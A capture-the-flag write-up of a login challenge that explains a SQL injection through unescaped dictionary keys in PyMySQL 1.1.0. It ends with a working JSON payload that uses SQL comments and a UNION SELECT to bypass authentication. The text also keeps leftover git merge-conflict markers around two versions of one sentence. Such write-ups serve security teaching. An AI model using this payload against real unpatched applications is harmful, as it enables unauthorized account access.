 UBook: Web - viennabootcamp 2024 (0 solve, upsolved)
===
Upsolved challenge during a bootcamp with some european national teams 
## The challenge
The challenge is a login system. Login as admin gives you the FLAG.
## Interesting points
### Unserialize
The challenge has a `safe_unserialize` function to manage json requests
```python
def safe_unserialize(obj: any) -> any:
    """Unpickle the object safely. Thx copilot <3"""
    if isinstance(obj, dict):
        return {User.to_user(k): safe_unserialize(v) for k, v in obj.items()}
    elif isinstance(obj, list):
        return [safe_unserialize(v) for v in obj]
    elif isinstance(obj, str):
        return User.to_user(obj)
    else:
        return obj

```
### User class
This is the user class
```python
class User:
    """User class to handle user data."""
    def __init__(self, name: str, password: str, country: str):
        self.name = name
        self.password = password
        self.country = country

    def get(self, attr: str) -> str:
        return getattr(self, attr, None)

    def __repr__(self) -> str:
        return f'{self.name},{self.country}'
    
    def __str__(self) -> str:
        return f'{self.name},{self.country}'
    
    @staticmethod
    def to_user(s: str) -> 'User':
        # we don't want XSS, so we allow only safe symbols here
        return User(*s.split(',')) if re.match('^[\/\w:\.^\*@]{4,10},[\/\w:\.^\*@]{7,},[A-Z]{2}$', s) else s
```
### Query
All query are done by this function (using PyMySQL==1.1.0)
```python
def query_handler(sql, cur, params=[]):
    try:
        cur.execute(sql, params)
    except Exception as e:
        cur.close()
        app.logger.critical(e)
        abort(500)
    
    return cur
```

Login Query:
```python
[...]
QUERY_GET = "SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = %s)"
[...]
cur = query_handler(QUERY_GET, cur, (user,))
[...]
```
## Exploit
So we have to do a SQLi of course but how? Every query is prepared.

Let me check the lib:

This is the `mogrify` function for escape args
```python
def mogrify(self, query, args=None):
    conn = self._get_db()

    if args is not None:
        query = query % self._escape_args(args, conn)

    return query
```

So... this is not a real prepared query. Let's see the `_escape_args` function

```python
def _escape_args(self, args, conn):
    if isinstance(args, (tuple, list)):
        return tuple(conn.literal(arg) for arg in args)
    elif isinstance(args, dict):
        return {key: conn.literal(val) for (key, val) in args.items()}
    else:
        # If it's not a dictionary let's try escaping it anyways.
        # Worst case it will throw a Value error
        return conn.escape(args)
```

Oh
return `{key: conn.literal(val) for (key, val) in args.items()}`

<<<<<<< HEAD
The key are not escaped!!!! (after CTF the author([@lavish](https://github.com/lavish)) links his [advisory](https://github.com/advisories/GHSA-v9hf-5j83-6xpp), not found during event :/ )
=======
The key are not escaped!!!! (after CTF the author (@lavish) send the [advisor](https://github.com/PyMySQL/PyMySQL/releases/tag/v1.1.1), not found during event :/ )
>>>>>>> 1030a65d7f154b848e415908d2079db0d6973c76

So if we send this payload we have a syntax error (we can send any json object of course):
```json
[{
    "user":"aaaaa",
    "password":"aaaaa",
    "country":"aaaa"
}]
```
```
(1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'\'user\': "\'aaaaa\'", \'password\': "\'aaaaa\'", \'country\': "\'aaaa\'"})\' at line 1')
```

Okay, obv the curly brackets :(

After a ***big*** amount of hours of search on the internet, with the query `mysql syntax curly brackets` I landend to this page [https://dev.mysql.com/doc/refman/8.4/en/expressions.html](https://dev.mysql.com/doc/refman/8.4/en/expressions.html)

Yes, yes, yes! I'm noob in google search

## Final Payload

The `__repr__` of user help us to remove the quotes. So start from this

```json
{
    "aaaa,aaaaaaa,AA": null
}
```

```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aaaa,AA: 'NULL'})
```

We need some comments for the commas

```json
{
    "aa/*aa,aaaaaaa,AA": null,
    "*/": null
}
```
```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aa/*aa,AA: 'NULL', '*/': 'NULL'})
```

YES! Null is an SQL key and not a string. Let's pull all togheter

```json
{
"aa/*aa,aaaaaaa,AA":null,
"*/":"}) UNION SELECT 1,1,SHA2(1,256),1,1 -- ",
"password":"1"
}
```

Enjoy!!!



